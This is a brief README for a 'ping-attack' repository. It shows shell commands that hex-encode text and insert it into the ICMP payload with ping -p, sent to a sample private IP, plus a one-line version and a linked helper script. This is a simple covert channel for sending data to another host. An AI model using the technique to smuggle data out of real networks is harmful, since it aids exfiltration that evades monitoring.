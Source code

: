# ping-attack

Basic Commands:

```shell
#!/bin/bash

#This will take the text "test" and convert to hex:
echo "test" | xxd -p

#output:
746573740a

#This will ping the ip address and add the hex of "test" into the data field
ping -c 1 192.168.1.5 -p 746573740a

```

or use the oneline script of:
`ping -c 1 192.168.1.5 -p $(echo -n "test" | xxd -p)

or use the scripts ping_payload1.sh located https://github.com/yen5004/ping-attack/blob/9aae89150817556d350d8b5587fc3f86cccddde3/ping_payload1.sh
just pass the ip address and text

